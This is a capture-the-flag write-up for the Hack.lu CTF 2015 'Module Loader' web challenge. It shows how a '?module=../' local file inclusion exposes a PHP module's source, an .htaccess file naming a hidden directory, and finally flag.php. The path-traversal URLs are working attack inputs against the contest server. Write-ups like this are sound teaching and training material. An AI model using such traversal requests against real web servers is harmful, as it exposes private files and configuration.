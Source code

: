 # Hack.lu CTF 2015 - Module Loader (Web, 100pts)

## Problem

100 Points by lucebac (Web)

Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.


## Solution

We get simple web application with two available options:

![Welcome screen](https://github.com/bl4de/ctf/blob/master/2015/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader1.png)

After quick research there's an obvious LFI (Local File Include)

![LFI](https://github.com/bl4de/ctf/blob/master/2015/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader2.png)

We can include any file using url:

```
school.fluxfingers.net:1522/?module=../modules/timer
```

And here's source code of _timer_ module - it's just printed out, PHP code is not executed here:

```php
<?php 
if (isset($_GET['time']))
    $tmp = explode("-", $_GET['time']);
else
    $tmp = array(1970, 1, 1);
$y = (int)$tmp[0];
$m = (int)$tmp[1];
$d = (int)$tmp[2];
?>
<div id="clock"></div>
<!-- <script src="countdown.js"></script> -->
<script>
var clock = document.getElementById("clock");
var now = new Date();
clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d; ?>)).toString();
setInterval(function(){clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d ?>)).toString();}, 1000);
</script>

```

Also, we can display _.htaccess_, which contains some directory with quite "obvious" name :P

```
<!--
# seems to be not working, though
#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
#    Options -Indexes
#</Directory>
# -->
```

Let's take a look there and here we go:

![3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae content](https://github.com/bl4de/ctf/blob/master/2015/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader3.png)


Last thing is to use LFI and see, what's in flag.php file:

![Flag](https://github.com/bl4de/ctf/blob/master/2015/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader4.png)


school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php


